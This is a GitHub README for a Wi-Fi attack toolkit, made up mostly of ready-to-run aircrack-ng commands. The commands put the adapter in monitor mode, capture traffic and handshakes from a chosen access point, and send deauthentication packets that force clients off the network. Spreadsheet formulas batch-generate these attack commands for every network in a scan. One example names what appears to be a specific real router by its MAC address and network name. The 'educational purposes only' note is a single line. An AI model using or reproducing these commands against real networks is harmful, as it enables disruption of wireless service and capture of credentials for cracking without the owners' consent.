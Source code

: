 # Wi-Fi Toolkit

This repository contains a collection of shell scripts for performing various Wi-Fi related tasks.

## Requirements:

- Linux operating system
- airodump-ng and aireplay-ng tools (usually part of the aircrack-ng suite)
- Python 3

## Usage:

### Install
```bash
wget https://raw.githubusercontent.com/gznll/shell/main/wifi/{wifi_dump.sh,python_server.sh,death_wifi.sh}
```
### Check in
#### wlan0 status
```bash
iwconfig
```
#### Active wifi interface
```bash
iw dev
```
#### AP availeble list
```bash
iwlist wlan0 scanning | grep -i essid
```
### Get AP list
#### Kill services
```bash
airmon-ng check kill
```
#### wlan0 to monitor mode and get AP list in out-01.csv
```bash
airodump-ng wlan0 -w out
```
#### Basic commands
```bash
airodump-ng --bssid 11:22:33:44:55:66 --channel 2 wlan0 -w output
aireplay-ng --deauth 10 -a 11:22:33:44:55:66 wlan0 	
wpaclean out.cap in.cap
```
### Use in xls:

#### replace in text mode out-01.csv  [' ' > '' and ','>';']
#### Insert formula in Cell:

```sh
x	dump	death	clean
=VLOOKUP(A3,F:F,1,FALSE)	=CONCATENATE("airodump-ng --bssid ",A3," "," --channel ",D3," "," wlan0 -w ",N3)	=CONCATENATE("aireplay-ng --deauth 10 -a ",A3," ","wlan0")	=CONCATENATE("watch -n 1 wpaclean clean_",N3,".cap ",N3,"-01.cap")
```
```sh
x	dump	death	clean	sh
=ВПР(A3;F:F;1;ЛОЖЬ) 	=СЦЕПИТЬ("airodump-ng --bssid ";A3;" ";" --channel ";D3;" ";" wlan0 -w ";N3) 	=СЦЕПИТЬ("aireplay-ng --deauth 10 -a ";A3;" ";"wlan0") 	=СЦЕПИТЬ("watch -n 1 wpaclean clean_";N3;".cap ";N3;"-01.cap")	echo airodump-ng --bssid A8:63:7D:1A:67:E3  --channel 1  wlan0 -w MTSRouter_67E1 > 1.sh && echo aireplay-ng --deauth 10 -a A8:63:7D:1A:67:E3 wlan0 > 2.sh && echo watch -n 1 wpaclean clean_MTSRouter_67E1.cap MTSRouter_67E1-01.cap > 3.sh && chmod +x *.sh

```
### Reset wifi adapter to managed mode
```bash
sudo ip link set wlan0 down && sudo iw dev wlan0 set type managed && sudo ip link set wlan0 up && systemctl start NetworkManager
```


### Wi-Fi Dumping (wifi_dump.sh)

This script uses airodump-ng to capture Wi-Fi packets from a specific Access Point (AP).

#### Syntax:

```bash
./wifi_dump.sh MAC_ADDRESS CHANNEL [OUTPUT_FILE]
```
Arguments:
    MAC_ADDRESS: The MAC address of the target AP.
    CHANNEL: The channel the AP is operating on.
    OUTPUT_FILE: (Optional) The filename for the output capture file. Defaults to dump.cap.
    
```bash
./wifi_dump.sh 00:11:22:33:44:55 11 dump.cap
```
This will capture Wi-Fi packets from the AP with MAC address 00:11:22:33:44:55 on channel 11 and save them to dump.cap.

## Wi-Fi Deauth Attack (death_wifi.sh)
This script uses aireplay-ng to perform a deauthentication attack against a specific client connected to an AP.
#### Syntax:
```bash
./death_wifi.sh DEAUTH_COUNT MAC_ADDRESS [INTERFACE wlan0]
```
Arguments:
    DEAUTH_COUNT: The number of deauthentication packets to send.
    MAC_ADDRESS: The MAC address of the target client.
    INTERFACE: (Optional) The network interface to use. Defaults to wlan0.
```bash
./death_wifi.sh 10 00:11:22:33:44:55 wlan0
```
This will send 10 deauthentication packets to the client with MAC address 00:11:22:33:44:55 using the wlan0 interface.

Note: This script is intended for educational purposes only. Using it for malicious purposes is illegal and unethical.

## Python HTTP Server (python_server.sh)
This script starts a simple Python HTTP server on a specified port.
#### Syntax:
```bash
./python_server.sh [PORT 8000]
```
Arguments:

    PORT: (Optional) The port to listen on. Defaults to 8000.
```bash
./python_server.sh 8080
```
This will start the server on port 8080.

Note: Ensure that the current directory contains the files you want to serve.

## Disclaimer:

These scripts are provided "as is" without warranty of any kind. Use them at your own risk.

